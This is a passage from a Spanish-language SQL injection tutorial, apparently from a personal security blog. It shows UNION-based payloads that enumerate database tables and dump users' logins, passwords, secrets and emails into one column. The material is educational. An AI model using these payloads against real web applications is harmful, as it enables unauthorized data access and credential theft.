 Este proceso seguirá hasta que lleguemos a una tabla que se considere sensible, como el siguiente caso:

```sql
test' union select 1,table_name,3,4,5,6,7 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=database() LIMIT 3,1-- -
```

[![sqlinjectlimit3](/images/sqlinjectlimit3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectlimit3.png)

Este mismo proceso se puede realizar para buscar bases de datos, tablas, columnas o la información contenidas en ellas.

### Recuperación de múltiples valores en una columna

Para los siguientes ejemplo lo que se busca realizar es seleccionar todos los datos de la tabla users y concatenarlos en una sola cadena para obtener el nombre de usuario, la contraseña, el secreto y el correo electrónico de cada usuario en la base de datos. Este prcoeso se puede realizar para obtener datos de tablas, columnas, entre otros.

[![sqlinjectretornoenunacolumna1](/images/sqlinjectretornoenunacolumna1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectretornoenunacolumna1.png)

```sql
test' union select 1,concat(login,':',password,':',secret,':',email),3,4,5,6,7 FROM users-- -
```

Otra opción podría ser lo siguiente pero no siempre funciona:

```sql
test' union select 1,login||':'||password||':'||secret||':'||email,3,4,5,6,7 FROM users-- -
```

### Detección de versión

La detección de versiones a través de una inyección es importante para encontrar vulnerabilidades conocidas en esa versión específica, lo que provoca que se encuentren más vectores potenciales de ataque.
